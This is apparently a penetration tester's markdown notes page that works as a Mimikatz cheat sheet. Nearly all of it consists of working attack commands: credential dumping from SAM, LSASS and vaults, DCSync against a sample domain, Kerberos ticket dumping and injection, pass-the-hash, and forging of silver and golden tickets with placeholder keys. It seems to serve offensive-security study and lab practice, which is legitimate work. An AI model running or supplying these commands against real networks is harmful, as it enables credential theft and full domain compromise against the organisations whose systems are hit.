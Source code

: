 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#post-exploitation #credential-dumping #ticket-dumping
# Mimikatz

## General Overview

Post exploitation commands must be executed from SYSTEM level privileges.
- mimikatz # privilege::debug
- mimikatz # token::whoami
- mimikatz # token::elevate
- mimikatz # lsadump::sam
- mimikatz # sekurlsa::logonpasswords
- mimikatz sekurlsa::tickets
- mimikatz sekurlsa::tspkg

Dump the Domain's Credentials without touching DC's LSASS and also remotely

- mimikatz lsadump::dcsync /domain:megacorpone.com /all

Dump old passwords and NTLM hashes of a user
- mimikatz lsadump::dcsync /user:megacorpone.com\afsimmons /history

List and Dump local kerberos credentials
- mimikatz kerberos::list /dump

List Vault Credentials: 
- mimikatz vault::list

## Pass The Hash

- mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash

## Inject generated TGS key

- mimikatz # kerberos::ptt <ticket_kirbi_file>

## Generating a silver ticket 

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

AES 128 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>


## Generating a Golden Ticket

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

AES 128 Key: 

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
